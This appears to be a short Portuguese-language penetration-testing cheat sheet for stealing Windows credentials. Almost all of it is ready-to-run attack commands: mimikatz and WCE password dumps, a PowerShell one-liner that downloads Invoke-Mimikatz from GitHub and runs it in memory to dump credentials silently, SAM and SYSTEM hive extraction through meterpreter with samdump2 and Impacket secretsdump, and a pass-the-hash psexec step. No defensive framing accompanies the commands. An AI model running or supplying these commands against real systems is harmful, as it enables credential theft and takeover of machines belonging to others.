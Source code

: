 ### Obter senha do Windows 7 (mimikatz)
~~~~
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
~~~~

### Obter senha do Windows 7 (WCE)
~~~
wce.exe -w
~~~

### Uso do Mimikatz de dentro da PowerShell diretamente na memória para fazer uma extração silenciosa
~~~
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds" > C:\Users\maicon\Downloads\pass.txt
~~~


### Extração dos arquivos SAM e SYSTEM para achar as credenciais através do samdump2
~~~
meterpreter> load powershell
meterpreter> powershell_shell
~~~

Buscar nos registros as chaves sam e system

~~~
PS> reg save hklm\sam c:\sam
PS> reg save hklm\system c:\system

meterpreter>download c:\\sam
meterpreter>download c:\\system
~~~

Nova aba como administrador
~~~
# samdump2 system sam
~~~

### Mais um método de extração dessa vez com um dos módulos do Impacket chamado Secretdump
~~~
git clone impacket
pip install -r requirements.txt
python3 setup.py install
secretsdump.py -sam sam -system system LOCAL
~~~

### PASS THE HASH
use exploit/windows/smb/psexec
